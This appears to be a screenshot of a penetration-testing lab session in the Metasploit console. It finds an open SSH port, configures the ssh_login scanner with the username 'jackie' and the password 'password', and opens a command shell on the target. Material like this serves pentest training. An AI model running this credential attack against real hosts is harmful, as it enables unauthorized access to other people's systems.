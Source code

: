 ```

host          port  proto  name  state  info
----          ----  -----  ----  -----  ----
192.127.83.3  22    tcp    ssh   open   OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 Ubuntu Linux; protocol 2.0
```

```
msf5 > search ssh_login

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  auxiliary/scanner/ssh/ssh_login                          normal  No     SSH Login Check Scanner
   1  auxiliary/scanner/ssh/ssh_login_pubkey                   normal  No     SSH Public Key Login Scanner


msf5 > use auxiliary/scanner/ssh/ssh_login
msf5 auxiliary(scanner/ssh/ssh_login) > show options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS            192.127.83.3     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           false            yes       Whether to print output for all attempts

msf5 auxiliary(scanner/ssh/ssh_login) > set USERNAME jackie
USERNAME => jackie
msf5 auxiliary(scanner/ssh/ssh_login) > set PASSWORD password
PASSWORD => password
msf5 auxiliary(scanner/ssh/ssh_login) > exploit

[+] 192.127.83.3:22 - Success: 'jackie:password' ''
[*] Command shell session 1 opened (192.127.83.2:40663 -> 192.127.83.3:22) at 2023-03-12 03:15:52 +0000
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
